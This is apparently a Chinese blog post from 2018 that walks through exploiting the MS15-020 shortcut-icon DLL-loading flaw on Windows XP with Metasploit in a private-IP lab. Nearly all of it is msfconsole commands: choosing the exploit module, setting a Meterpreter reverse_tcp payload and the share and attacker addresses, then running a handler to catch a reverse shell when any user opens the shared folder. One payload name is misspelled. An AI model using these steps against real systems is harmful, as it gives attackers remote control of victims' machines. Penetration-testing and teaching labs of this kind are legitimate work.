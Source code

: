 ```yaml
---
title: Metasploit MS15-020漏洞利用
date: 2018-05-06
tags: Metasploit
layout: post
---
```



环境：
共享机/受害者：windows xp 		IP:192.168.222.1
攻击机：kali linux  				IP:192.168.10.1


```
msfconsole  //在kali终端输入msfconsole进入控制台

search ms15-020 //搜索ms15-020漏洞

use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader //使用该模块

show options //显示所有参数

set payload windows/meterpreter/reverse_tcp //设置payload

```
![这里写图片描述](https://img-blog.csdn.net/20180506104117344?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

设置参数：

```
set unchost 192.168.222.1 //共享的主机地址
set uncshare //共享的文件夹名
set lhost 192.168.10.1 //攻击机IP地址 
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506104925374?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
>运行后会生成三个文件，将三个文件放到共享机的share目录下。

继续在msf中使用handler进行监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverser_tcp
set lhost 192.168.10.1
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506110005738?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>以上设置完成之后在当别的用户再访问这个共享文件夹时就可以直接获得meterpreter

![这里写图片描述](https://img-blog.csdn.net/20180506111138581?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
![这里写图片描述](https://img-blog.csdn.net/20180506111152942?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

